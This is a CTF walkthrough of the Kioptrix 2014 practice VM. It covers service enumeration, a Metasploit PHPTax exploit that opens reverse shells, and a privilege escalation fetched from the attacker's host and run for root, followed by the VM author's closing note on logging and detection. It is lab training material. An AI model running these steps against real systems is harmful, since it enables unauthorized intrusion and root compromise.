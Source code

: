```yaml
---
layout: blog_item
title:  "Kioptrix Level 2014 Walkthrough"
date:   2014-04-15 14:00:10
author: Arr0way
description: 'Kioptrix 2014 Walkthrough, CTF solution for Kioptrix Level 2014.'
categories: [walkthroughs]
tags:
- Kioptrix
---
```


<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Coffee Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa fa-coffee"></i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}

## Author Description

The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges.

## Service Enumeration

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Port</th>
      <th>Service</th>
      <th>Version Detection</th>
    </tr>
  </thead>
      <tbody>

        <tr>
           <td>
               <pc><p><code>TCP: 80</code></p></pc>
           </td>
           <td>
              <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 8080</code></p></pc>
           </td>
           <td>
              <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)</p></pc>
           </td>
        </tr>        

      </tbody>

</table>
</div>


## Web Application Interrogation

<code>http://192.168.221.159:8080/</code> rendered a page 403 forbidden page. The Firefox UserAgent switcher was leveraged to change the browser to IE 6, exposing the web application **PHPTAX** (this took a while to figure out!):


![phptax](/img/blog/kioptrix/phptax.png)

![phptax2](/img/blog/kioptrix/phptax2.png)

## Non Privileged Shell

Research discovered a metasploit module existed for phptax:

{% highlight bash %}

msf > use exploit/multi/http/phptax_exec
msf exploit(phptax_exec) > set RHOST 192.168.221.159
RHOST => 192.168.221.159
msf exploit(phptax_exec) > set RPORT 8080
RPORT => 8080
msf exploit(phptax_exec) > set TARGETURI /phptax/
TARGETURI => /phptax/
msf exploit(phptax_exec) > show options

Module options (exploit/multi/http/phptax_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST      192.168.221.159  yes       The target address
   RPORT      8080             yes       The target port
   TARGETURI  /phptax/         yes       The path to the web application
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   PhpTax 0.8


msf exploit(phptax_exec) > run

[*] [2016.01.07-08:20:41] Started reverse double handler
[*] [2016.01.07-08:20:41] 192.168.221.1598080 - Sending request...
[*] [2016.01.07-08:20:42] Accepted the first client connection...
[*] [2016.01.07-08:20:42] Accepted the second client connection...
[*] [2016.01.07-08:20:42] Accepted the first client connection...
[*] [2016.01.07-08:20:42] Accepted the second client connection...
[*] [2016.01.07-08:20:42] Command: echo GiSakqCyBJv7ZAuW;
[*] [2016.01.07-08:20:42] Writing to socket A
[*] [2016.01.07-08:20:42] Writing to socket B
[*] [2016.01.07-08:20:42] Reading from sockets...
[*] [2016.01.07-08:20:42] Command: echo 4yauS5V9QPhhcobv;
[*] [2016.01.07-08:20:42] Writing to socket A
[*] [2016.01.07-08:20:42] Writing to socket B
[*] [2016.01.07-08:20:42] Reading from sockets...
[*] [2016.01.07-08:20:43] Reading from socket B
[*] [2016.01.07-08:20:43] B: "GiSakqCyBJv7ZAuW\r\n"
[*] [2016.01.07-08:20:43] Matching...
[*] [2016.01.07-08:20:43] A is input...
[*] [2016.01.07-08:20:43] Reading from socket B
[*] [2016.01.07-08:20:43] B: "4yauS5V9QPhhcobv\r\n"
[*] [2016.01.07-08:20:43] Matching...
[*] [2016.01.07-08:20:43] A is input...
[*] Command shell session 1 opened (192.168.221.162:4444 -> 192.168.221.159:45072) at 2016-01-07 08:20:43 -0500
[*] Command shell session 2 opened (192.168.221.162:4444 -> 192.168.221.159:62420) at 2016-01-07 08:20:43 -0500

id
uid=80(www) gid=80(www) groups=80(www)

{% endhighlight %}

## Local Privilege Escalation

The binary <code>fetch</code> was used to download a FreeBSD 9.0-9.1 mmap/ptrace - Privilege Escalation Exploit, fetch was used as the target didn't contain the usual binaries for file download (wget, curl, etc).

{% highlight bash %}

wget
wget: not found

curl
curl: not found

fetch -o exploit http://192.168.221.162:45/26368
exploit                                               2215  B   32 MBps

mv exploit exploit.c
gcc exploit.c -o exploit
./exploit

id
uid=0(root) gid=0(wheel) egid=80(www) groups=80(www)
/bin/sh -i
sh: can't access tty; job control turned off
# cd /root
# ls
.cshrc
.history
.k5login
.login
.mysql_history
.profile
congrats.txt
folderMonitor.log
httpd-access.log
lazyClearLog.sh
monitor.py
ossec-alerts.log
# cat congrats.txt
If you are reading this, it means you got root (or cheated).
Congratulations either way...

Hope you enjoyed this new VM of mine. As always, they are made for the beginner in
mind, and not meant for the seasoned pentester. However this does not mean one
can't enjoy them.

As with all my VMs, besides getting "root" on the system, the goal is to also
learn the basics skills needed to compromise a system. Most importantly, in my mind,
are information gathering & research. Anyone can throw massive amounts of exploits
and "hope" it works, but think about the traffic.. the logs... Best to take it
slow, and read up on the information you gathered and hopefully craft better
more targetted attacks.

For example, this system is FreeBSD 9. Hopefully you noticed this rather quickly.
Knowing the OS gives you any idea of what will work and what won't from the get go.
Default file locations are not the same on FreeBSD versus a Linux based distribution.
Apache logs aren't in "/var/log/apache/access.log", but in "/var/log/httpd-access.log".
It's default document root is not "/var/www/" but in "/usr/local/www/apache22/data".
Finding and knowing these little details will greatly help during an attack. Of course
my examples are specific for this target, but the theory applies to all systems.

As a small exercise, look at the logs and see how much noise you generated. Of course
the log results may not be accurate if you created a snapshot and reverted, but at least
it will give you an idea. For fun, I installed "OSSEC-HIDS" and monitored a few things.
Default settings, nothing fancy but it should've logged a few of your attacks. Look
at the following files:
/root/folderMonitor.log
/root/httpd-access.log (softlink)
/root/ossec-alerts.log (softlink)

The folderMonitor.log file is just a cheap script of mine to track created/deleted and modified
files in 2 specific folders. Since FreeBSD doesn't support "iNotify", I couldn't use OSSEC-HIDS
for this.
The httpd-access.log is rather self-explanatory .
Lastly, the ossec-alerts.log file is OSSEC-HIDS is where it puts alerts when monitoring certain
files. This one should've detected a few of your web attacks.

Feel free to explore the system and other log files to see how noisy, or silent, you were.
And again, thank you for taking the time to download and play.
Sincerely hope you enjoyed yourself.

Be good...


loneferret
http://www.kioptrix.com


p.s.: Keep in mind, for each "web attack" detected by OSSEC-HIDS, by
default it would've blocked your IP (both in hosts.allow & Firewall) for
600 seconds. I was nice enough to remove that part :)

{% endhighlight %}

Thanks for the VM :)
